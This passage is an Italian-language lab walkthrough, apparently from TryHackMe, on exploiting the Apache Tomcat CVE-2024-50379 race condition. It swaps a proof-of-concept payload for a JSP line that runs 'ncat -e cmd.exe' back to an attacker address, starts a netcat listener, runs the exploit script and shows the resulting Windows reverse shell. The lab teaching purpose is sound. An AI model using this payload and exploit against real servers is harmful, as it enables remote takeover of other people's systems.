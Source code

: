 **Modifica del carico utile**

Questo exploit PoC utilizza un payload che apre `calc.exe`, come si può dedurre dalla riga 37. Per semplificare questo exploit, abbiamo installato `ncat`sul server MS Windows. Pertanto, sostituiremo il payload con un altro che si collega al sistema dell'attaccante. Il payload commentato e quello nuovo sono mostrati di seguito.

```python
-# payload_put = "aa<% Runtime.getRuntime().exec(\"calc.exe\");%>"
payload_put = "<%@ page import=\"java.io.*\" %><% Runtime.getRuntime().exec(\"cmd /c start ncat -e cmd.exe 10.10.194.219 8888\"); %>"
```

Questo payload usa JSP `Runtime.getRuntime().exec()`per eseguire `cmd /c start ncat -e cmd.exe 10.10.194.219 8888`. Come detto, questo è possibile perché abbiamo installato `ncat`per lo scopo di questa dimostrazione.

Prima di eseguire questo PoC , dobbiamo ascoltare le connessioni in arrivo. Iniziamo `netcat`con AttackBox usando `netcat -lvnp 8888`.

```
netcat -lvnp 8888
```

Successivamente, su AttackBox, eseguiamo l'exploit con il comando `python3 ApachTomcat_CVE-2024-50379_ConditionalCompetitionToRce.py -u 10.10.191.41:8080`.

- **Nota 1:** l'esecuzione di questo comando visualizzerà un messaggio come `Checking http://10.10.191.41:8080/...`, e il terminale smetterà di mostrare gli aggiornamenti per alcuni minuti. Durante questo periodo, il codice exploit invia molte richieste per sovraccaricare il server di destinazione e produrre con successo una condizione di gara. Attendi mentre lo script viene eseguito mentre osservi il terminale che esegue il `netcat -lvnp 8888`comando. La pazienza è la chiave.
- **Nota 2:** poiché si tratta di un exploit di condizione di gara, potrebbe essere necessario ripetere il PoC più volte prima di riuscire.

Quando l'exploit riesce, verrà stabilita una connessione con l'ascolto `netcat`. Il terminale qui sotto mostra un esempio.

Terminale AttackBox

```shell-session
root@tryhackme:~# netcat -lvnp 8888
Listening on 0.0.0.0 8888

Connection received on 10.10.235.214 50916
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\Apache Software Foundation\Tomcat 10.1>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Program Files\Apache Software Foundation\Tomcat 10.1

01/30/2025  08:14 AM    <DIR>          .
01/30/2025  08:14 AM    <DIR>          ..
01/30/2025  08:14 AM    <DIR>          bin
[...]
01/30/2025  08:15 AM    <DIR>          work
               5 File(s)        180,180 bytes
               9 Dir(s)  14,243,995,648 bytes free

C:\Program Files\Apache Software Foundation\Tomcat 10.1>
```
